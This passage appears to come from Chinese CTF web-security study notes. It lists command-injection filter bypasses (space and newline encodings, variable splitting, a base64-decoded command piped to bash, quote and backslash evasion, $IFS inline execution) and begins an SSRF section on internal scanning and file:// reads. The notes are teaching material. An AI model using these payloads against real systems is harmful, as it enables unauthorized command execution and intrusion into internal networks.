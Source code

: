     - %20

    - %09(需要php环境)

  - <font color='red'>3.前后缀</font>

    - %0a 换行符(php环境)

    - %00 截断

    - %20%23

  - **<font color='red'>4.黑名单绕过</font>**

    - 1.拼接：a=c;b=at;c=fl;d=ag;$a$b $c$d

    - 2.base64编码

      - echo "Y2F0IGZsYWc="|base64 -d (该编码为cat)

      - echo "Y2F0IGZsYWc="|base64 -d|bash (在bash被过滤的情况下可尝试sh)

    - 3.单双引号：c""at fl''ag

    - 4.反斜线：c\at fl\ag

    - 5.正则![](https://api2.mubu.com/v3/document_image/8f8ca449-d18f-497b-b5da-e05dba2b1b5e-10191865.jpg)

  - <font color='red'>5.其他技巧</font>

    - 1.内联执行---就是将``或$()内命令的输出作为输入执行

      - cat\$IFS$9\`ls`

      - cat\$IFS$9$(ls)

    - 2.文件构造绕过

      利用ls -t和>以及换行符绕过长度限制执行命令(文件构造绕过)

      - ![](https://api2.mubu.com/v3/document_image/e587b377-1752-445d-9285-bea15b567c22-10191865.jpg)


## 四、SSRF(服务端请求构造)

- SSRF（服务端请求伪造）

  一种构造请求，由服务端发起请求的安全漏洞

  - 漏洞原理

    - 服务端提供了从其他服务器获取数据的功能，但没有对内网目标地址做过滤和限制

    - 主要方式：

    - 1.对外网、服务器所在内网、本地进行端口扫描，获取Banner信息

    - 2.测试运行在内网或本地的应用程序

    - 3.利用file协议读取本地文件等

  - 漏洞代码分析
    - ![](https://api2.mubu.com/v3/document_image/5206f57b-6a7a-434d-8e8c-dad04e71cfc1-10191865.jpg)
